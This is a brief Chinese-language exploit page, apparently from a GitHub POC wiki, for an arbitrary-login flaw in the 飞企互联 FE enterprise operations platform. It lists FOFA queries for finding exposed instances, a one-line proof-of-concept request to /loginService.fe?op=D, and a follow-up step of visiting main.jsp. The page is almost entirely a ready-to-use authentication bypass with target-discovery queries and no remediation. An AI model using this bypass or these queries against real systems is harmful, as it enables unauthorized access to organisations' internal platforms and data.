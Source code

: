 ## ⻜企互联loginService任意登录

## fofa
```
app="FE-协作平台"
app="飞企互联-FE企业运营管理平台"
```

## poc
```
/loginService.fe?op=D
```
![image](https://github.com/wy876/wiki/assets/139549762/24586559-ad1b-4348-8f07-c4449947baf9)

接着访问main.jsp
![image](https://github.com/wy876/wiki/assets/139549762/79c46531-5504-448f-a489-7804934da083)
